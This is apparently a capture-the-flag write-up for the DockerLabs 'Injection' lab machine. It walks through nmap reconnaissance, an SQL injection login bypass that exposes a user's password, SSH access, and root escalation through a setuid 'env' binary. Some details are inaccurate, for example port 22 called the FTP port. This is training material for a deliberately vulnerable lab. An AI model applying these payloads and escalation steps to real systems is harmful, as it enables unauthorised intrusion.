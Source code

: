 # Write Up Injection

**Difficulty:** Super fáil<br>
**Link to dockerlabs:** https://dockerlabs.es/

## Setting the enviroment
First of all we deploy the machine with the script that comes when downloading the machine
```
❯ chmod +x auto_deploy.sh
❯ sudo ./auto_deploy.sh injection.tar

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Once deployed, we create the injection folder, go inside and use the *mkt* utility that creates the *nmap*, *content*, *exploits* and *scripts* folders.

```
❯ mkdir injection-dockerlabs
❯ cd injection-dockerlabs
❯ mkt
❯ ls -l
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 content
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 exploits
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 nmap
drwxrwxr-x godack godack 4.0 KB Fri Aug 15 17:03:20 2025 scripts
```
## Recon
The first thing that we do is a general reconnaissance with nmap over the victym machine, with the purpose to obtain the open ports.
```
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```
Once we have obtained the open ports we can do an exhaustive scan with recon scripts with the purpose to obtain the services that are running on each port and their's version.

```
❯ extractPorts allPorts
[*] Extracting information...

   [*] IP Address: 172.17.0.2
   [*] Open ports: 22,80

[*] Ports copied to clipboard

❯ nmap -sCV -p22,80 172.17.0.2 -oN targeted
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-15 17:09 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000051s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 72:1f:e1:92:70:3f:21:a2:0a:c6:a6:0e:b8:a2:aa:d5 (ECDSA)
|_  256 8f:3a:cd:fc:03:26:ad:49:4a:6c:a1:89:39:f9:7c:22 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Iniciar Sesi\xC3\xB3n
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.31 seconds
```

In this way we discovered that the service running on port 22 (FTP port) is OpenSSH 8.9p1 and on port 80 (http port) an Apache httpd 2.4.52 web service is running.

## Exploit
As we have seen that there is a web service running on the victim machine, we proceed to view the web, adding the domain (in this case it does not have one and we will simply put the name of the machine) to the */etc/hosts* file of our virtual machine (it is the local DNS configuration file).

```
❯ sudo vi /etc/hosts
❯ cat /etc/hosts
127.0.0.1   localhost
127.0.1.1   kali

172.17.0.2  injection

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Once the */etc/hosts* file is configured, we proceed to access the website, and we see that it is a login form.

![Web](../.sources/injection-login.png)

Let's try entering the basic parameters to check for SQL injection. To do this, enter the string *admin' OR '1' = '1'; --* in the username section and anything else for password (in my case, I put *hacked!*) to allow the form to be submitted. If everything goes well, you'll be able to log in as the administrator (if it doesn't work with the admin user, you can change it to root, administrator, and similar, but without wasting too much time).

```
User: admin' OR '1' = '1'; --
Password: hacked!
```

And bingo! We're in and we get Dylan's credentials.

```
Bienvenido Dylan! Has insertado correctamente tu contraseña: KJSDFG789FGSDF78
```

Having obtained these credentials, we can try to access through the also open ssh port.

```
ssh dylan@injection
dylan@injection's password: (aquí ponemos el password)
dylan@6b329dffcb35:~$ 
```

And we alredy get access to the machine!

## Privilege escalation

To be able to use the console in a more comfortable way we can do the following treatment of the terminal:

```
script /dev/null -c bash
stty raw -echo; fg
reset xterm
export TERM=xterm
```

Now that we have a terminal we look for files (preferably binary) with the root user and the *setuid* flag active and we find the following:

```
dylan@6b329dffcb35:/bin$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/su
/usr/bin/env
/usr/bin/chsh
```

So we use the env command as follows and elevate privileges to root

```
dylan@6b329dffcb35:/bin$ ./env /bin/sh -p
# whoami
root
# 
```

## Lessons Learned
1. Scans with **nmap**
2. Simple SQL injection
3. Searching for binaries with active *setuid*
4. Privilege escalation with **env**